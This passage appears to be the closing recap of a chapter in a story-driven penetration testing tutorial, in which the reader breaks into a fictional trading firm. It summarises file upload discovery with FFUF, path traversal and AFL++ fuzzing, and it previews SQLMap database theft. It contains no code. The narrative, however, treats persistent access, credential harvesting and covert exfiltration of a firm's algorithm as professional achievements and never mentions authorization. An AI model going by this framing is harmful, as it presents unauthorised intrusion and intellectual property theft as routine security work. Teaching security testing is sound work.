You've successfully applied systematic file upload security assessment methodology and established comprehensive access to Castle Securities' algorithm development infrastructure. More importantly, you've developed professional-grade file upload and binary fuzzing capabilities that transfer directly to any security assessment engagement.

*Professional Tool Mastery Achieved:*

*FFUF Upload Discovery Proficiency* through systematic endpoint enumeration, parameter discovery, and upload infrastructure analysis that reveals complete file processing attack surface and hidden functionality not discoverable through manual testing approaches.

*Path Traversal Exploitation Expertise* using systematic filename manipulation, encoding bypass techniques, and validation circumvention that achieves reliable file system access and code execution capabilities across different system configurations.

*AFL{pp} Binary Fuzzing Competency* including coverage-guided vulnerability discovery, crash analysis and validation, and memory corruption testing that identifies critical security vulnerabilities in file processing libraries using industry-standard binary security testing methodology.

*Professional Assessment Integration* combining multiple file upload attack vectors with authentication access and system intelligence to create comprehensive security evaluation methodology suitable for enterprise client engagements.

*Current Access to Castle Securities Infrastructure:*

*Persistent System Access* through path traversal file writes and script upload bypass providing sustained access to algorithm development infrastructure with reliable code execution capabilities and file system manipulation access.

*Binary Vulnerability Intelligence* through AFL{pp} fuzzing revealing memory corruption in file processing libraries affecting all uploaded content and providing system-level compromise opportunities with validated exploit potential.

*File System and Configuration Access* through directory traversal and system access revealing algorithm source code locations, database configuration files, and authentication credentials for subsequent exploitation phases.

*Integration Platform for Advanced Exploitation* where file processing access enables covert data exfiltration through legitimate file processing workflows and provides sustained surveillance infrastructure.

*Professional Skills That Transfer to Any Security Assessment:*

The systematic methodology you've mastered represents exactly what professional security consultants use for client engagements. FFUF proficiency for systematic discovery, path traversal expertise for validation bypass, and AFL{pp} binary fuzzing capabilities are core competencies that Fortune 500 employers expect from senior security professionals.

*Next Phase of Systematic Security Assessment:*

File processing access provides pathways to structured data repositories rather than the algorithm data itself. The ARGOS algorithm implementation, training datasets, and mathematical parameters exist in database systems that your file system access can now reach through discovered credentials and configuration intelligence.

In the next chapter, you'll learn systematic database exploitation using SQLMap to extract the complete algorithmic trading system from Castle Securities' data repositories. Database exploitation represents the culmination of systematic security assessment by providing direct access to structured business data and algorithmic intellectual property.

Your professional development has progressed from systematic reconnaissance through authentication security, real-time protocol analysis, and file processing security to database exploitation. Next, you'll apply professional database security testing methodology--the final technical phase for obtaining complete access to the Infinite Money Machine implementation.

'''

_Next: Chapter 5 - The Vault: Database Infiltration_

_"Their algorithm lives in the data vaults. Time to crack the treasury."_
